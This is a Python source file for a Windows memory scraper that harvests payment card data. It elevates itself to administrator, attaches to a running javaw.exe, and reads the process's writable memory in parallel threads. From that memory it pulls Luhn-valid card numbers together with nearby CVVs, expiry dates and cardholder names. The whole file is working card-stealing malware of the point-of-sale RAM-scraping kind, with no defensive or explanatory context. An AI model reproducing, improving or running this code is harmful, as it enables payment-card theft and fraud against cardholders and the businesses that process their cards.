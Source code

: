 import ctypes
import psutil
import re
import threading
from queue import Queue
import sys

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Expanded regex patterns
cc_regex = re.compile(r'(\b(?:\d[ -]*?){13,19}\b)')  # Credit card number
cvv_regex = re.compile(r'\b\d{3,4}\b')  # CVV code (3 or 4 digits)
expiry_regex = re.compile(r'\b(0[1-9]|1[0-2])/(?:[0-9]{2}|[0-9]{4})\b')  # Expiry date MM/YY or MM/YYYY
name_regex = re.compile(r'\b[A-Z][a-z]+ [A-Z][a-z]+\b')  # Simple name pattern (First Last)

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    results = []

    card_matches = cc_regex.findall(memory_chunk)
    for card_match in card_matches:
        sanitized_card = re.sub(r'[^\d]', '', card_match)  # Remove non-numeric characters

        if validate_luhn(sanitized_card):
            # Try to find associated CVV, expiry date, and name near the card
            match_index = memory_chunk.find(card_match)
            surrounding_text = memory_chunk[max(0, match_index - 100): match_index + 300]

            # Find possible CVV, expiry date, and name nearby
            cvv_match = cvv_regex.search(surrounding_text)
            expiry_match = expiry_regex.search(surrounding_text)
            name_match = name_regex.search(surrounding_text)

            card_info = {
                'Card Number': sanitized_card,
                'CVV': cvv_match.group(0) if cvv_match else 'Not Found',
                'Expiry Date': expiry_match.group(0) if expiry_match else 'Not Found',
                'Name': name_match.group(0) if name_match else 'Not Found'
            }
            results.append(card_info)

    return results

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while not memory_queue.empty():
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1'))
                if valid_cards:
                    for card in valid_cards:
                        print(f"Found card at address {base_addr}: {card}")
        except Exception as e:
            print(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Define the MEMORY_BASIC_INFORMATION structure
class MEMORY_BASIC_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("BaseAddress", ctypes.c_void_p),
        ("AllocationBase", ctypes.c_void_p),
        ("AllocationProtect", ctypes.c_ulong),
        ("RegionSize", ctypes.c_size_t),
        ("State", ctypes.c_ulong),
        ("Protect", ctypes.c_ulong),
        ("Type", ctypes.c_ulong)
    ]

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            if mbi.State == 0x1000 and mbi.Protect == 0x04:  # MEM_COMMIT and PAGE_READWRITE
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    for region in memory_regions:
        memory_queue.put(region)

    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.start()
        threads.append(t)

    memory_queue.join()

    for t in threads:
        t.join()
    ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
